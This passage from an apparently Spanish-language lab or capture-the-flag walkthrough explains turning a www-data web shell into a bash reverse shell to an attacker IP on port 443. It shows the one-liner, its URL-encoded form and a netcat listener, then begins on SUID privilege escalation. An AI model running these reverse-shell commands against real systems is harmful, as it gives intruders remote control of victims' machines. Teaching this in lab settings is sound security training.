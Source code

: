 La salida `www-data` indica que hemos obtenido una shell como el usuario del servidor web. Éste  tiene privilegios limitados. El siguiente paso es establecer una `reverse shell` para tener una conexión más estable y funcional con la máquina atacante.

## 5. Establecimiento de una Reverse Shell

Una `reverse shell` es una técnica en la que la máquina objetivo inicia una conexión de vuelta a la máquina del atacante, lo que permite al atacante ejecutar comandos de forma interactiva. Esto es preferible a una `bind shell` (donde el atacante se conecta a un puerto abierto en la máquina objetivo) porque a menudo las redes tienen firewalls que bloquean las conexiones entrantes, pero permiten las salientes.

### Preparación de la Reverse Shell

Se utiliza una `bash reverse shell` que se codifica en URL para poder ser ejecutada a través de la shell obtenida en el paso anterior. En la máquina atacante, se configura un `listener` con `netcat` para recibir la conexión entrante.

**Comando de Reverse Shell (codificado en URL):**

```bash
bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'
```

*   `bash -i`: Abre una shell interactiva de bash.
*   `>& /dev/tcp/172.17.0.1/443`: Redirige tanto la salida estándar (`stdout`) como la salida de error estándar (`stderr`) a un socket TCP que se conecta a la IP `172.17.0.1` (la IP de la máquina atacante) en el puerto `443`.
*   `0>&1`: Redirige la entrada estándar (`stdin`) al mismo socket, haciendo que la shell sea completamente interactiva.

**Codificación URL:**

Para ejecutar este comando a través de una interfaz web o un exploit que maneje URLs, es común codificarlo. Herramientas como `https://www.urlencoder.org/` se utilizan para este propósito. El comando codificado sería:

```
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F443%200%3E%261%27
```

**Listener en la Máquina Atacante:**

En una terminal separada en la máquina atacante, se inicia un `listener` de `netcat` en el puerto especificado (en este caso, 443).

```bash
nc -nvlp 443
```

Una vez que el comando codificado se ejecuta en la máquina objetivo, la `reverse shell` se conectará al `listener` de `netcat`, proporcionando una shell interactiva y estable.

## 6. Escalada de Privilegios con Binarios SUID

Después de obtener una shell inicial como un usuario de bajos privilegios (`www-data`), el siguiente objetivo es escalar privilegios a `root`. Una técnica común es buscar binarios con el bit SUID (Set User ID) activado. Cuando un programa con el bit SUID activado es ejecutado por un usuario, se ejecuta con los permisos del propietario del archivo, no con los del usuario que lo ejecuta. Si el propietario es `root`, el programa se ejecutará con privilegios de `root`.
